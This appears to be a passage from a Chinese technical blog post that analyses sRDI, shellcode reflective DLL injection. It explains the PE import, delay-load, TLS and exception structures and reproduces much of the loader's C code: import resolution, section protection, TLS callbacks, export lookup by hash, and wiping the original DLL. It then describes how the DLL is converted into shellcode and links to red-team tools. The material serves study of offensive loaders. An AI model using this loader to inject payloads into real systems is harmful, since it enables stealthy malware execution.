看到`originalFirstThunk`和`FirstThunk`都指向了一个数据结构`IMAGE_THUNK_DATA`
```c 
typedef struct _IMAGE_THUNK_DATA64 {
    union {
        ULONGLONG ForwarderString;  // PBYTE 
        ULONGLONG Function;         // PDWORD
        ULONGLONG Ordinal;
        ULONGLONG AddressOfData;    // PIMAGE_IMPORT_BY_NAME
    } u1;
} IMAGE_THUNK_DATA64;

```

这个数据结构就是一个ULONGLONG类型，在32位下是dword类型，但在不同的时刻却拥有不同的解释

IMAGE_THUNK_DATA有**两种解释** ：

  * DWORD最高位为0，那么该数值是一个RVA，指向_IMAGE_IMPORT_BY_NAME结构，表明函数是**以字符串类型的函数名导入** 的

    * _IMAGE_IMPORT_BY_NAME结构：
        ```c
        typedef struct _IMAGE_IMPORT_BY_NAME {
            WORD    Hint;
            BYTE    Name[1];
        } IMAGE_IMPORT_BY_NAME, *PIMAGE_IMPORT_BY_NAME;
        ```

      * 该结构即为：”编号—名称”（Hint/Name）描述部分

        * Hint：导出函数地址表的**索引编号** ，可能为空且**不一定准确** ，由编译器决定，一般不使用该值
        * Name：这个是一个以”\0”结尾的字符串，表示函数名
  * DWORD最高位为1，那么该数值的低31位就是函数的**导出函数的序号**


为什么两个参数描述同一个数据结构`IMAGE_THUNK_DATA`呢，这涉及到一个PE文件加载前后的对比

**PE加载前后对比**

  * 在PE文件加载前：`OriginalFirstThunk`指向的INT和`FirstThunk`指向的IAT的数据值是**相同** 的，但是其**存储位置是不同的**
  * 在PE文件加载后：`OriginalFirstThunk`指向的INT**不变** ，但`FirstThunk`指向的IAT的数据值**变为了函数相应的RVA地址**


PS：函数相应的RVA地址是根据IAT中的函数名称或者导出表中的序号获得的

所以`加载导入表`的过程，就是模拟PE加载器，根据导入表，依次加载对应dll，获取导出函数，并将函数虚拟地址(rva)放到`FirstThunk`。

加载函数根据定义，使用`pLdrGetProcAddress`按照序号或者名称加载
```c 
dataDir = &ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
// 从数据目录获取导入表结构
randSeed = (DWORD)((ULONGLONG)dllData);

if (dataDir->Size) {
    importDesc = RVA(PIMAGE_IMPORT_DESCRIPTOR, baseAddress, dataDir->VirtualAddress);
    for (; importDesc->Name; importDesc++) {

        library = pLoadLibraryA((LPSTR)(baseAddress + importDesc->Name));

        firstThunk = RVA(PIMAGE_THUNK_DATA, baseAddress, importDesc->FirstThunk);
        origFirstThunk = RVA(PIMAGE_THUNK_DATA, baseAddress, importDesc->OriginalFirstThunk);

        for (; origFirstThunk->u1.Function; firstThunk++, origFirstThunk++) {

            if (IMAGE_SNAP_BY_ORDINAL(origFirstThunk->u1.Ordinal)) {
                pLdrGetProcAddress(library, NULL, (WORD)origFirstThunk->u1.Ordinal, (PVOID *)&(firstThunk->u1.Function));
            }
            else {
                importByName = RVA(PIMAGE_IMPORT_BY_NAME, baseAddress, origFirstThunk->u1.AddressOfData);
                FILL_STRING(aString, importByName->Name);
                pLdrGetProcAddress(library, &aString, 0, (PVOID*)&(firstThunk->u1.Function));
            }
        }
    }
}

```

### 加载延迟导入表

延迟加载导入表和导入表示相互分离的，延迟加载导入表是特殊的导入表，和导入表不同的是，延迟加载导入表所记录的dll不会被操作系统加载，只有在函数被应用程序调用的时候，PE中注册的延迟加载函数才会根据延迟加载导入表的记录，动态加载dll，以及修正导入函数的VA。

延迟加载由于没有在程序初始化的时候初始化dll，只是会在应用程序调用某个模块的时候加载该模块，所以使用延迟加载技术的程序拥有更高的初始化速度。

表结构
```c 
typedef struct _IMAGE_DELAYLOAD_DESCRIPTOR {
    union {
        DWORD AllAttributes;
        struct {
            DWORD RvaBased : 1;             // Delay load version 2
            DWORD ReservedAttributes : 31;
        } DUMMYSTRUCTNAME;
    } Attributes;

    DWORD DllNameRVA;                       // RVA to the name of the target library (NULL-terminate ASCII string)
    DWORD ModuleHandleRVA;                  // RVA to the HMODULE caching location (PHMODULE)
    DWORD ImportAddressTableRVA;            // RVA to the start of the IAT (PIMAGE_THUNK_DATA)
    DWORD ImportNameTableRVA;               // RVA to the start of the name table (PIMAGE_THUNK_DATA::AddressOfData)
    DWORD BoundImportAddressTableRVA;       // RVA to an optional bound IAT
    DWORD UnloadInformationTableRVA;        // RVA to an optional unload info table
    DWORD TimeDateStamp;                    // 0 if not bound,
                                            // Otherwise, date/time of the target DLL

} IMAGE_DELAYLOAD_DESCRIPTOR, *PIMAGE_DELAYLOAD_DESCRIPTOR;

```

直接按照加载导入表的方式加载即可
```c 
dataDir = &ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_DELAY_IMPORT];

if (dataDir->Size) {
    delayDesc = RVA(PIMAGE_DELAYLOAD_DESCRIPTOR, baseAddress, dataDir->VirtualAddress);

    for (; delayDesc->DllNameRVA; delayDesc++) {

        library = pLoadLibraryA((LPSTR)(baseAddress + delayDesc->DllNameRVA));

        firstThunk = RVA(PIMAGE_THUNK_DATA, baseAddress, delayDesc->ImportAddressTableRVA);
        origFirstThunk = RVA(PIMAGE_THUNK_DATA, baseAddress, delayDesc->ImportNameTableRVA);

        for (; firstThunk->u1.Function; firstThunk++, origFirstThunk++) {
            if (IMAGE_SNAP_BY_ORDINAL(origFirstThunk->u1.Ordinal)) {
                pLdrGetProcAddress(library, NULL, (WORD)origFirstThunk->u1.Ordinal, (PVOID *)&(firstThunk->u1.Function));
            }
            else {
                importByName = RVA(PIMAGE_IMPORT_BY_NAME, baseAddress, origFirstThunk->u1.AddressOfData);
                FILL_STRING(aString, importByName->Name);
                pLdrGetProcAddress(library, &aString, 0, (PVOID *)&(firstThunk->u1.Function));
            }
        }
    }
}

```

### 分配段的内存属性
```c
sectionHeader = IMAGE_FIRST_SECTION(ntHeaders);

for (i = 0; i < ntHeaders->FileHeader.NumberOfSections; i++, sectionHeader++) {

    if (sectionHeader->SizeOfRawData) {

        // determine protection flags based on characteristics
        executable = (sectionHeader->Characteristics & IMAGE_SCN_MEM_EXECUTE) != 0;
        readable = (sectionHeader->Characteristics & IMAGE_SCN_MEM_READ) != 0;
        writeable = (sectionHeader->Characteristics & IMAGE_SCN_MEM_WRITE) != 0;

        if (!executable && !readable && !writeable)
            protect = PAGE_NOACCESS;
        else if (!executable && !readable && writeable)
            protect = PAGE_WRITECOPY;
        else if (!executable && readable && !writeable)
            protect = PAGE_READONLY;
        else if (!executable && readable && writeable)
            protect = PAGE_READWRITE;
        else if (executable && !readable && !writeable)
            protect = PAGE_EXECUTE;
        else if (executable && !readable && writeable)
            protect = PAGE_EXECUTE_WRITECOPY;
        else if (executable && readable && !writeable)
            protect = PAGE_EXECUTE_READ;
        else if (executable && readable && writeable)
            protect = PAGE_EXECUTE_READWRITE;

        if (sectionHeader->Characteristics & IMAGE_SCN_MEM_NOT_CACHED) {
            protect |= PAGE_NOCACHE;
        }

        // change memory access flags
        pVirtualProtect(
            (LPVOID)(baseAddress + sectionHeader->VirtualAddress),
            sectionHeader->SizeOfRawData,
            protect, &protect
        );
    }

}

```

### 执行 TLS 回调

TLS即Thread Local Storage，线程局部存储。执行TLS 回调函数可以理解为编程语言中的析构函数。
```c 
typedef struct _IMAGE_TLS_DIRECTORY64 {
    ULONGLONG StartAddressOfRawData;
    ULONGLONG EndAddressOfRawData;
    ULONGLONG AddressOfIndex;         // PDWORD
    ULONGLONG AddressOfCallBacks;     // PIMAGE_TLS_CALLBACK *;
    DWORD SizeOfZeroFill;
    union {
        DWORD Characteristics;
        struct {
            DWORD Reserved0 : 20;
            DWORD Alignment : 4;
            DWORD Reserved1 : 8;
        } DUMMYSTRUCTNAME;
    } DUMMYUNIONNAME;

} IMAGE_TLS_DIRECTORY64;

```

回调函数的定义
```c 
//
// Thread Local Storage
//

typedef VOID
(NTAPI *PIMAGE_TLS_CALLBACK) (
    PVOID DllHandle,
    DWORD Reason,
    PVOID Reserved
);

```

执行tls callback代码
```c 
///
// STEP 8: Execute TLS callbacks
///

dataDir = &ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_TLS];

if (dataDir->Size)
{
    tlsDir = RVA(PIMAGE_TLS_DIRECTORY, baseAddress, dataDir->VirtualAddress);
    callback = (PIMAGE_TLS_CALLBACK *)(tlsDir->AddressOfCallBacks);

    for (; *callback; callback++) {
        (*callback)((LPVOID)baseAddress, DLL_PROCESS_ATTACH, NULL);
    }
}

```

### 注册异常处理(仅在64位)

x86系统采用动态的方式构建SEH结构，相比而言x64系统下采用静态的方式处理SEH结构，它保存在PE文件中，通常在.pdata区段。数据目录项的第三个。

结构
```c 
typedef struct_IMAGE_IA64_RUNTIME_FUNCTION_ENTRY {

   DWORD BeginAddress;   //与SEH相关代码的起始偏移地址

   DWORD EndAddress;      //与SEH相关代码的末尾偏移地址

   DWORD UnwindInfoAddress;//指向描述上面两个字段之间代码异常信息的UNWIND_INFO

} IMAGE_IA64_RUNTIME_FUNCTION_ENTRY,*PIMAGE_IA64_RUNTIME_FUNCTION_ENTRY;

```

代码
```c 
#ifdef _WIN64
    dataDir = &ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXCEPTION];

    if (pRtlAddFunctionTable && dataDir->Size)
    {
        rfEntry = RVA(PIMAGE_RUNTIME_FUNCTION_ENTRY, baseAddress, dataDir->VirtualAddress);
        pRtlAddFunctionTable(rfEntry, (dataDir->Size / sizeof(IMAGE_RUNTIME_FUNCTION_ENTRY)) - 1, baseAddress);
    }
#endif

```

使用RtlAddFunctionTable设置异常处理（SEH）

### 调用dllMain
```c
///
// STEP 10: call our images entry point
///

dllMain = RVA(DLLMAIN, baseAddress, ntHeaders->OptionalHeader.AddressOfEntryPoint);
dllMain((HINSTANCE)baseAddress, DLL_PROCESS_ATTACH, (LPVOID)1);

```

使用DLL_PROCESS_ATTACH为参数,调用DLL入口点。

### 调用指定函数

遍历导出表，计算funchash并匹配
```c 
///
// STEP 11: call our exported function
///

if (dwFunctionHash) {

    do
    {
        dataDir = &ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];
        if (!dataDir->Size)
            break;

        exportDir = (PIMAGE_EXPORT_DIRECTORY)(baseAddress + dataDir->VirtualAddress);
        if (!exportDir->NumberOfNames || !exportDir->NumberOfFunctions)
            break;

        expName = RVA(PDWORD, baseAddress, exportDir->AddressOfNames);
        expOrdinal = RVA(PWORD, baseAddress, exportDir->AddressOfNameOrdinals);

        for (i = 0; i < exportDir->NumberOfNames; i++, expName++, expOrdinal++) {

            expNameStr = RVA(LPCSTR, baseAddress, *expName);
            funcHash = 0;

            if (!expNameStr)
                break;

            for (; *expNameStr; expNameStr++) {
                funcHash += *expNameStr;
                funcHash = ROTR32(funcHash, 13);

            }

            if (dwFunctionHash == funcHash && expOrdinal)
            {
                exportFunc = RVA(EXPORTFUNC, baseAddress, *(PDWORD)(baseAddress + exportDir->AddressOfFunctions + (*expOrdinal * 4)));
                exportFunc(lpUserData, nUserdataLen);
                break;
            }
        }
    } while (0);
}

```

### 清除掉原dll内存
```c
if (flags & SRDI_CLEARMEMORY && pVirtualFree && pLocalFree) {
    if (!pVirtualFree((LPVOID)dllData, 0, 0x8000))
        pLocalFree((LPVOID)dllData);
}

```

### 将反射dll转换为shellcode

**编译顺序**



function_link_order.txt
``` 
LoadDLL
GetProcAddressWithHash

```

指定LoadDLL首先编译

**分离shellcode**



通过一个powershell脚本，分离出.text段的内容，即是我们需要的shellcode了，这个shellcode开头就是`LoadDLL`的函数调用。

然后再用汇编编写一段调用的代码就可以运行了，这个代码我们可以叫bootstrap。

ps：如何将c写的代码转换为shellcode，不要使用windows提供的api，使用动态加载的方式调用。也要防止编译器自己的优化。

srdi提供了一个shellcode生成脚本，在`Python\ShellcodeRDI.py`，再ida下分析下shellcode（在x64下）


``` 
ULONG_PTR LoadDLL(PBYTE dllData, DWORD dwFunctionHash, LPVOID lpUserData, DWORD nUserdataLen, DWORD flags)

```

整个程序在内存中是这样的
``` 
# Bootstrap shellcode
# RDI shellcode
# DLL bytes
# User data

```

## End

硬看了几天代码，终于把步骤和原理都理清楚了一点，也更加理解PE的结构了。之前的`任意exe转shellcode`工具，原理是shellcode化的进程替换，不用关心PE结构，但很多代码都是原始的手撸，看了这些代码后是真心佩服写这些代码的人，研究的很深，代码写的也很好，值得学习一番。

Ps：hacking8的在线exe转shellcode [https://i.hacking8.com/dll2shellcode/] 已经集成了这些技术的在线转换。



## 参考

  * 任意exe转换shellcode
    * https://i.hacking8.com/exe2shellcode/
  * Stager Payload原理分析
    * https://wbglil.gitbook.io/cobalt-strike/cobalt-strike-yuan-li-jie-shao/untitled-1
  * Sliver
    * https://github.com/BishopFox/sliver
  * donut
    * https://github.com/TheWover/donut
  * srdi发展史
    * https://silentbreaksecurity.com/srdi-shellcode-reflective-dll-injection/
    * https://github.com/monoxgas/sRDI
  * 导入表学习
    * https://www.52pojie.cn/thread-1413220-1-1.html#37934121_%E5%AF%BC%E5%85%A5%E8%A1%A8
  * 任意dll转换shellcode
    * https://i.hacking8.com/dll2shellcode/


